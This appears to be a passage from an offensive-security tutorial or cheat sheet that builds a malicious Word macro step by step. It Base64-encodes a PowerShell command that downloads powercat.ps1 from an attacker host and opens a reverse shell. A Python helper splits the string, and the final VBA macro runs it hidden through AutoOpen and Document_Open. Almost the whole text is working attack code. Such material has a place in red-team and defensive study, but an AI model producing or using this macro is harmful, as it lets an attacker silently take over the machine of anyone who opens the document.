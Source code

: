 > https://www.base64decode.org/

Now `Base64 encode` it with `UTF-16LE` and `LF (Unix)`.

```c
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8APABMAEgATwBTAFQAPgAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACIAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADwATABIAE8AUwBUAD4AIAAtAHAAIAA8AEwAUABPAFIAVAA+ACAALQBlACAAcABvAHcAZQByAHMAaABlAGwAbAA=
```

#### Python Script for Formatting

```c
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8APABMAEgATwBTAFQAPgAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACIAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADwATABIAE8AUwBUAD4AIAAtAHAAIAA8AEwAUABPAFIAVAA+ACAALQBlACAAcABvAHcAZQByAHMAaABlAGwAbAA="

n = 50

for i in range(0, len(str), n):
        print("Str = Str + " + '"' + str[i:i+n] + '"')
```

```c
$ python3 script.py 
Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
Str = Str + "GQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8APABMAEg"
Str = Str + "ATwBTAFQAPgAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACIAK"
Str = Str + "QA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADwATABIAE8AUwB"
Str = Str + "UAD4AIAAtAHAAIAA8AEwAUABPAFIAVAA+ACAALQBlACAAcABvA"
Str = Str + "HcAZQByAHMAaABlAGwAbAA="
```

#### Final Macro

```c
Sub AutoOpen()
    MalMacro
End Sub

Sub Document_Open()
    MalMacro
End Sub

Sub MalMacro()
    Dim Str As String

        Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
        Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
        Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
        Str = Str + "GQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8APABMAEg"
        Str = Str + "ATwBTAFQAPgAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACIAK"
        Str = Str + "QA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADwATABIAE8AUwB"
        Str = Str + "UAD4AIAAtAHAAIAA8AEwAUABPAFIAVAA+ACAALQBlACAAcABvA"
        Str = Str + "HcAZQByAHMAaABlAGwAbAA="

    CreateObject("Wscript.Shell").Run Str

End Sub
```
